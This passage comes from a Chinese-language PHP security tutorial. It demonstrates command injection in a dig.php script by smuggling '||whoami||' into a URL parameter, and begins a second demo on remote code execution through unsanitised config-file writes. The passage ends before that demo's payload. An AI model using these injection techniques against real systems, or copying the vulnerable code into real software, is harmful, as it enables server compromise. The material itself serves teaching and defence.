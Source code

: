 ```
    } else {
?>

```

如果我们请求

```
dig.php?ns=whoam&host=sirgod.net&query_type=NS&status=digging

```

明显`system ("dig whoami sirgod.com NS");`是不能执行的

所以我们用“||”分别执行linux命令

```
dig.php?ns=||whoami||&host=sirgod.net&query_type=NS&status=digging

system ("dig ||whoami|| sirgod.net NS");

```

那么我们就分离了dig命令和whoami 成功执行

**Demo #2 配置信息保存不当的RCE**

很多时候php的配置信息是直接保存在.php后缀的文件里面的 比如discuz 如果没有认真过滤…

```
  if(isset($action) && $action == "setconfig") {
    $config_file = "config.php";
    $handle = fopen($config_file, 'w');
    $StringData = "<?php\r
    $"."news_width = '".clean($_POST[news_width])."';\r
    $"."bgcolor = '".clean($_POST[bgcolor])."';\r
    $"."fgcolor = '".clean($_POST[fgcolor])."';\r
    $"."padding = '".clean($_POST[padding])."';\r
    $"."subject_margin = '".clean($_POST[subject_margin])."';\r
    $"."fontname = '".clean($_POST[fontname])."';\r
    $"."fontsize = '".clean($_POST[fontsize])."';\r\n?>";
    fwrite($handle, $StringData);
  }

```

那么如果正常提交 就是

```
<?php 
$news_width = '600px'; 
$bgcolor = '#000000';
$fgcolor = '#ffffff'; 
$padding = '5px'; 
$subject_margin = '0px'; 
$fontname = 'verdana'; 
$fontsize = '13px'; 
?>

```
